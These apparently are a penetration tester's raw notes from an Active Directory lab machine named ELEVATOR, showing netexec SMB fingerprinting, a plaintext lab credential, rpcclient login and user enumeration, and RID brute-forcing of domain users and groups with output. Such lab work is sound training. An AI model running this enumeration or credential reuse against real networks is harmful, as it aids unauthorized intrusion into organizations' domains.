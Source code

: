 
------------------------------------------------------------------------
┌──(kali㉿kali)-[~/Documents/elevator]
└─$ netexec smb 192.168.56.105                                
SMB         192.168.56.105  445    ELEVATOR         [*] Windows Server 2022 Build 20348 x64 (name:ELEVATOR) (domain:bloodhound.thl) (signing:True) (SMBv1:False) 
                                                                                                                                                                                                    

------------------------------------------------------------------------
john.smith
Rk436\#Z4&




rpcclient -U 'john.smith%Rk436\#Z4&' 192.168.56.105 



┌──(kali㉿kali)-[~/Documents/elevator]
└─$ rpcclient -U 'john.smith%Rk436\#Z4&' 192.168.56.105
rpcclient $> enumdomusers
user:[Administrador] rid:[0x1f4]
user:[Invitado] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[michael.jones] rid:[0x454]
user:[john.smith] rid:[0x455]
user:[mary.johnson] rid:[0x457]
user:[robert.williams] rid:[0x458]
user:[patricia.brown] rid:[0x45a]
rpcclient $> 


cat userK.txt | grep -oP '(?<=\[).*?(?=\])' | grep -v "0x" > usuarios_limpios.txt



-----------------------------------------------------------------------



┌──(kali㉿kali)-[~/Documents/elevator/elevator-docker]
└─$ netexec smb 192.168.56.105  -u 'john.smith' -p 'Rk436\#Z4&' --rid-brute                   
SMB         192.168.56.105  445    ELEVATOR         [*] Windows Server 2022 Build 20348 x64 (name:ELEVATOR) (domain:bloodhound.thl) (signing:True) (SMBv1:False) 
SMB         192.168.56.105  445    ELEVATOR         [+] bloodhound.thl\john.smith:Rk436\#Z4& 
SMB         192.168.56.105  445    ELEVATOR         498: BLOODHOUND\Enterprise Domain Controllers de sólo lectura (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         500: BLOODHOUND\Administrador (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         501: BLOODHOUND\Invitado (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         502: BLOODHOUND\krbtgt (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         512: BLOODHOUND\Admins. del dominio (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         513: BLOODHOUND\Usuarios del dominio (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         514: BLOODHOUND\Invitados del dominio (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         515: BLOODHOUND\Equipos del dominio (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         516: BLOODHOUND\Controladores de dominio (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         517: BLOODHOUND\Publicadores de certificados (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         518: BLOODHOUND\Administradores de esquema (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         519: BLOODHOUND\Administradores de empresas (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         520: BLOODHOUND\Propietarios del creador de directivas de grupo (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         521: BLOODHOUND\Controladores de dominio de sólo lectura (SidTypeGroup)
